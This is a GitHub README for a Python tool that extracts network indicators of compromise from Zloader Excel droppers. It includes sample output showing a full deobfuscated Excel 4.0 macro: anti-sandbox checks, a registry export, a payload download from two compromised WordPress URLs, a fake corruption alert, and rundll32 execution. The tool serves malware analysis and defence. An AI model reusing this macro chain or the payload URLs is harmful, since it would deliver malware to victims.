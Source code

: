 # zloader-extractor
A script to extract network IOCs from Zloader xls droppers

### Prerequisites
#### Requirements

```
$>pip install -r requirements.txt
```


## Usage

One one file:

```
$>python3 zloader_pown.py -f <xls file>
```

Recursively on a directory (every file will be matched against the embedded yara rule):

```
$>python3 zloader_pown.py -d <path to the directory>
```

An optional argument can be set to enable full macro dump on the standard output

```
$>python3 zloader_pown.py --dump-macro -f <xls file>
```


Example:

```
python3 zloader_pown.py --dump-macro -f ad3cf63d5acfba7788b01557eba63e6a2e712aa2c3a0970ffc901f7dead4f943
Extracting macros from ad3cf63d5acfba7788b01557eba63e6a2e712aa2c3a0970ffc901f7dead4f943
=IF(GET.WORKSPACE(13)<770,CLOSE(FALSE),)
=IF(GET.WORKSPACE(14)<390,CLOSE(FALSE),)
=IF(GET.WORKSPACE(19),,CLOSE(TRUE))
=IF(GET.WORKSPACE(42),,CLOSE(TRUE))
=IF(ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1))),,CLOSE(TRUE))
="C:\Users\"&GET.WORKSPACE(26)&"\AppData\Local\Temp\"&RANDBETWEEN(1,9999)&".reg"
="EXPORT HKCU\Software\Microsoft\Office\"&GET.WORKSPACE(2)&"\Excel\Security "&R[-1]C&" /y"
=CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","C:\Windows\system32\reg.exe",R[-1]C,0,5)
=WAIT(NOW()+"00:00:03")
=FOPEN(R[-4]C)
=FPOS(R[-1]C,215)
=FREAD(R[-2]C,255)
=FCLOSE(R[-3]C)
=FILE.DELETE(R[-8]C)
=IF(ISNUMBER(SEARCH("0001",R[-3]C)),CLOSE(FALSE),)
="C:\Users\"&GET.WORKSPACE(26)&"\AppData\Local\Temp\CVR"&RANDBETWEEN(1000,9999)&".tmp.cvr"
="https://giaytore.com/wp-content/themes/calliope/wp-front.php"
="https://gdchub.com//wp-content/themes/chihua/wp-front.php"
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,R[-2]C,R[-3]C,0,0)
=IF(R[-1]C<0,CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,R[-2]C,R[-4]C,0,0),)
=ALERT("The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt.",2)
=CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","C:\Windows\system32\rundll32.exe",R[-6]C&",DllRegisterServer",0,5)
=CLOSE(FALSE)

Payload delivery urls found:
https://giaytore.com/wp-content/themes/calliope/wp-front.php
https://gdchub.com//wp-content/themes/chihua/wp-front.php
```